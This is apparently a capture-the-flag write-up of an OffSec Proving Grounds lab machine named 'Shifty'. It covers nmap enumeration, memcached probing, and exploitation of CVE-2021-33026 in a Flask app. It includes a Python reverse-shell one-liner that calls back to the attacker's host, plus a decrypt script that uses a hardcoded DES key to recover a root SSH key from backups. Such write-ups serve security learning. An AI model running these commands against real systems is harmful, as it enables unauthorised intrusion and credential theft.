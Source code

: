 #### Enumeration

Nmap

```
# Nmap 7.91 scan initiated Thu Dec 16 11:54:44 2021 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/OffSecPG/Shifty/AutoRecon/results/192.168.55.59/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/OffSecPG/Shifty/AutoRecon/results/192.168.55.59/scans/xml/_full_tcp_nmap.xml 192.168.55.59
adjust_timeouts2: packet supposedly had rtt of -1208241 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -1208241 microseconds.  Ignoring time.
Nmap scan report for 192.168.55.59
Host is up, received user-set (0.20s latency).
Scanned at 2021-12-16 11:54:45 EST for 371s
Not shown: 65530 filtered ports
Reason: 65530 no-responses
PORT      STATE  SERVICE   REASON         VERSION
22/tcp    open   ssh       syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 54:d8:d1:1a:e4:8c:66:48:37:ba:89:0a:9b:aa:db:47 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSh58OLDmEhil0VmRkmNcijtg4KD/oQ4nP9I7PoS4uoangXCXpjJhuzsZJdKodqIRnp3G33o9HaRvx7LtIMPwl3cGcFNIDR9v+PDhDPgMKyRRJ48kdu3q0krzOWRvYnUEyLYjqDfb8VwBemuFA+gefLrMZLrLhhvArOG69zSCAOwKIC8MpQb+btXjU8c3QM6zKMX4XiEE5MM+TihshX/kJT8GgpJxzc+kXPuRgUkP5dgfQjgSsGos7UdHIGTStL4G2u9gXRj2KvamLZrWugN7onR1oMikWnbIki2OY6q4yn7aRo4RcXh4D9a+/L57R8oekVN4WEdGld2OBLzGCNQ89
|   256 fb:75:84:86:ec:b5:00:f3:4f:cb:c8:f2:18:85:42:b7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMTUc/WfFpP13Cs+MfoVp8EAwjODshXOpOBYCLG/SrFn5k1xSZVmqM3BVE/Dm2/AMOQGSmYzhMwUOj3rYuwnhWE=
|   256 2f:fd:b2:b1:6c:02:e8:a0:ba:e7:f7:52:80:3f:de:a3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAoY388QpNieLBhyB714K9LnjTUPfbgw4bfpGgdMBT0c
53/tcp    closed domain    reset ttl 63
80/tcp    open   http      syn-ack ttl 63 nginx 1.10.3
|_http-generator: Gatsby 2.22.15
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3
|_http-title: Gatsby + Netlify CMS Starter
5000/tcp  open   http      syn-ack ttl 63 Werkzeug httpd 1.0.1 (Python 3.5.3)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: Werkzeug/1.0.1 Python/3.5.3
|_http-title: Hello, world!
11211/tcp open   memcached syn-ack ttl 63 Memcached 1.4.33 (uptime 20753 seconds)
OS fingerprint not ideal because: maxTimingRatio (2.592000e+00) is greater than 1.4
Aggressive OS guesses: Linux 3.11 - 4.1 (93%), Linux 3.16 (91%), Linux 4.4 (91%), Linux 3.13 (88%), Linux 3.2 - 3.8 (87%), Linux 3.8 (87%), WatchGuard Fireware 11.8 (87%), Linux 3.10 - 3.16 (87%), Linux 3.10 - 3.12 (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=12/16%OT=22%CT=53%CU=%PV=Y%DS=2%DC=T%G=N%TM=61BB70C8%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=105%TI=Z%TS=8)
OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)
WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
ECN(R=Y%DF=Y%TG=40%W=7210%O=M506NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=N)
T7(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.230 days (since Thu Dec 16 06:30:11 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   224.76 ms 192.168.49.1
2   224.85 ms 192.168.55.59

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 16 12:00:56 2021 -- 1 IP address (1 host up) scanned in 372.78 seconds

```

I do not find the available vulnerability on the port 80 and 5000 website, so start checking service on 11211 port.

After a quick searching I understand the use of memcache. Installing the tools to help to easy get the information from memcache service.

```
sudo apt install libmemcached-tools
```

The stat command can show us some access information, but nothing useful.

```
memcstat --servers=192.168.100.59
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Shifty/Shifty_2022.01.01_13h41m57s_001_.png)


Next we try to get the website store items, but it doesn't return anything back.

```
memcdump --servers=192.168.100.59
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Shifty/Shifty_2022.01.01_13h52m35s_002_.png)

We have to browse the website on port 5000 first and it will generate the session.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Shifty/Shifty_2022.01.01_14h00m00s_003_.png)

I was stuck here for a long time and then I accidentally noticed that this is a demo site made with FLASK, so I tried to search for FLASK, memcache and exploit as keywords and found vulnerability [CVE-2021-33026](https://github.com/CarlosG13/CVE-2021-33026).

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Shifty/Shifty_2022.01.01_14h01m53s_004_.png)

Following the instructions for using the vulnerability We try to send the remote shell command.

```
python3 cve-2021-33026_PoC.py --rhost 192.168.100.59 --rport 5000 --cmd "python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.100\",11211));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'" --cookie "session:f246b931-de84-4794-ba25-59c4bd3835df" 
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Shifty/Shifty_2022.01.01_14h28m16s_005_.png)

Successfully obtained shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Shifty/Shifty_2022.01.01_14h28m41s_006_.png)

#### Privilege Escalation

(Reference official walkthrough)

The ```/opt/backups/backup.py``` file contains hardcoded key.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Shifty/Shifty_2022.01.01_22h58m08s_007_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Shifty/Shifty_2022.01.01_23h08m17s_008_.png)

Creating decrypt script file.

```
import sys
from des import des, CBC, PAD_PKCS5

k = des(b"87629ae8", CBC, b"\0\0\0\0\0\0\0\0", pad=None, padmode=PAD_PKCS5)
with open('/opt/backups/data/{}'.format(sys.argv[1])) as f:
    data = f.read()
    print(k.decrypt(data))
```

We need des file to execute the decrypt script. 

```
cp /opt/backups/des.py /tmp/des.py
```

Decrypting backup files.

```
python decrypt.py 31328fa57f5c504df041f7f4f45498c766c0d12c33f78f33cff66bca
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Shifty/Shifty_2022.01.01_23h17m59s_009_.png)

It's a SSH private key.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Shifty/Shifty_2022.01.01_23h21m20s_010_.png)

Using this SSH key for authentication.

```
chmod 400 id_rsa

ssh -i id_rsa root@192.168.134.59
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Shifty/Shifty_2022.01.01_23h31m38s_011_.png)
